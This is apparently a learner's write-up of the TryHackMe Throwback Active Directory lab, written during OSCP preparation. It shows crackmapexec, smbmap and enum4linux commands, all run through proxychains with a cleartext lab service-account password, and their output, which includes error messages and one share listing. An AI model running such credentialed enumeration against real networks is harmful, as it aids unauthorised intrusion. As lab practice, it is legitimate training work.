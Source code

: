 # Forsaken

Forsaken by the Timesheet.xlsm file working. I ventured forth naming this section of the Throwback - Forsaken. The rest of the task that managed to complete, happily up to the first DC, pretty much entirely myself. The **only** help I had was prompt to use ipconfig, John Hammond bloodhound information and timekeeper user and password(**I COULD ONLY HAVE GOT THAT IF THE TIMESHEET.xlsm HAD WORKED**), Sharphound did not work so later usages required by the tasks, were required. Given time pressures to complete this and all the compatibility issues I have had trying even with trying to go it hand-held through a majority of the tasks. No excuses just explainations. I learnt alot about how far I need to go to get the methodological chops optimised for the OSCP, where my blindspots are and what vital tools need to be perfectly setup well before my exam in hopefully serval months time.

```bash
proxychains crackmapexec ldap 10.200.102.0/24 -u SQLService -d THROWBACK.local -p mysql337570

SMB         10.200.102.117  445    THROWBACK-DC01   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-DC01) (domain:THROWBACK.local) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  THROWBACK.local:389 <--socket error or timeout!
SMB         10.200.102.117  445    THROWBACK-DC01   [-] THROWBACK.local\SQLService:mysql337570 Error connecting to the domain, please add option --kdcHost with the FQDN of the domain controller
<--socket error or timeout!
SMB         10.200.102.176  445    THROWBACK-TIME   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-TIME) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  THROWBACK.local:389 <--socket error or timeout!
SMB         10.200.102.176  445    THROWBACK-TIME   [-] THROWBACK.local\SQLService:mysql337570 Error connecting to the domain, please add option --kdcHost with the FQDN of the domain controller
```

Then tried some smbmap and enum4linux with little success:
```bash
proxychains smbmap -u SQLService -p mysql337570 -d THROWBACK.local -H 10.200.102.117
proxychains smbmap -u SQLService -p mysql337570 -H 10.200.102.117
proxychains enum4linux -a -u SQLService -p mysql337570 10.200.102.176
```

I recursively went back to rooms I had done on THM awhile ago. [Attacktivedirectory](https://tryhackme.com/room/attacktivedirectory) and [Attackingkerberos](https://tryhackme.com/room/attackingkerberos). Installed Kerbrute, ran smbmap:
```bash
proxychains smbmap -u SQLService -p mysql337570 -d THROWBACK.local -H 10.200.102.176 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  OK
[+] IP: 10.200.102.176:445      Name: 10.200.102.176                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```
